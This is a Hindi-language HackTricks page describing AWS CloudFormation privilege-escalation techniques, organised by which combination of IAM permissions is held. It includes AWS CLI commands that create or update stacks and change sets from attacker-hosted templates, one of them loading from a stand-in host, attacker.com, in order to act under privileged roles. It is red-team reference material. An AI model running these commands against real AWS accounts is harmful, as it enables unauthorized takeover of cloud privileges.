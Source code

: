 # AWS - Cloudformation Privesc

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें.

</details>

## cloudformation

cloudformation के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

इन अनुमतियों वाला हमलावर **विशेषाधिकार बढ़ा सकता है** अपने सर्वर पर होस्ट किए गए कस्टम टेम्प्लेट के साथ एक **CloudFormation स्टैक** तैयार करके, जो निर्दिष्ट रोल की अनुमतियों के तहत **क्रियाएं निष्पादित कर सकता है:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
निम्नलिखित पृष्ठ पर आपके पास **`cloudformation:DescribeStacks`** अतिरिक्त अनुमति के साथ एक **शोषण उदाहरण** है:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**संभावित प्रभाव:** निर्दिष्ट cloudformation सेवा भूमिका के लिए Privesc।

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

इस मामले में आप एक मौजूदा cloudformation स्टैक का **दुरुपयोग कर सकते हैं** ताकि इसे अपडेट करें और पिछले परिदृश्य की तरह विशेषाधिकार बढ़ा सकें:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` अनुमति का उपयोग करके आप **खुद को `UpdateStack` अनुमति दे सकते हैं** एक स्टैक पर और हमला कर सकते हैं।

**संभावित प्रभाव:** cloudformation सेवा भूमिका के लिए Privesc निर्दिष्ट किया गया।

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

यदि आपके पास यह अनुमति है लेकिन **कोई `iam:PassRole` नहीं है**, तो आप अभी भी **स्टैक्स को अपडेट कर सकते हैं** और उन **IAM भूमिकाओं का दुरुपयोग कर सकते हैं जो पहले से ही संलग्न हैं**। पिछले अनुभाग को शोषण उदाहरण के लिए जांचें (बस अपडेट में कोई भूमिका न दिखाएं)।

`cloudformation:SetStackPolicy` अनुमति का उपयोग करके आप **खुद को `UpdateStack` अनुमति दे सकते हैं** एक स्टैक पर और हमला कर सकते हैं।

**संभावित प्रभाव:** पहले से संलग्न cloudformation सेवा भूमिका के लिए Privesc।

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

एक हमलावर जिसके पास **एक भूमिका पास करने और ChangeSet बनाने & निष्पादित करने की अनुमति है**, वह **नया cloudformation स्टैक बना/अपडेट कर सकता है और cloudformation सेवा भूमिकाओं का दुरुपयोग कर सकता है** जैसे कि CreateStack या UpdateStack के साथ।

निम्नलिखित शोषण **CreateStack वाले का एक**[ **विविधता है**](./#iam-passrole-cloudformation-createstack) **ChangeSet अनुमतियों** का उपयोग करके एक स्टैक बनाने के लिए।
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` अनुमति का उपयोग करके आप **खुद को `ChangeSet` अनुमतियां दे सकते हैं** और हमला कर सकते हैं।

**संभावित प्रभाव:** cloudformation सेवा भूमिकाओं के लिए Privesc।

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

यह पिछली विधि की तरह है बिना **IAM भूमिकाओं** को पास किए, इसलिए आप सिर्फ **पहले से जुड़ी हुई भूमिकाओं का दुरुपयोग कर सकते हैं**, बस पैरामीटर को संशोधित करें:
```
--change-set-type UPDATE
```
**संभावित प्रभाव:** क्लाउडफॉर्मेशन सेवा भूमिका तक प्रिवेस्क जो पहले से जुड़ी हुई है।

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

एक हमलावर इन अनुमतियों का दुरुपयोग कर सकता है ताकि StackSets बनाए/अपडेट कर सके और मनमाने क्लाउडफॉर्मेशन भूमिकाओं का दुरुपयोग कर सके।

**संभावित प्रभाव:** क्लाउडफॉर्मेशन सेवा भूमिकाओं तक प्रिवेस्क।

### `cloudformation:UpdateStackSet`

एक हमलावर इस अनुमति का दुरुपयोग कर सकता है बिना passRole अनुमति के StackSets को अपडेट करने के लिए और जुड़े हुए क्लाउडफॉर्मेशन भूमिकाओं का दुरुपयोग कर सके।

**संभावित प्रभाव:** जुड़े हुए क्लाउडफॉर्मेशन भूमिकाओं तक प्रिवेस्क।

## संदर्भ

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से लेकर हीरो तक AWS हैकिंग सीखें</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें।
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह।
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) या **Twitter** 🐦 पर मुझे **फॉलो** करें [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **HackTricks** के [**github repos**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>
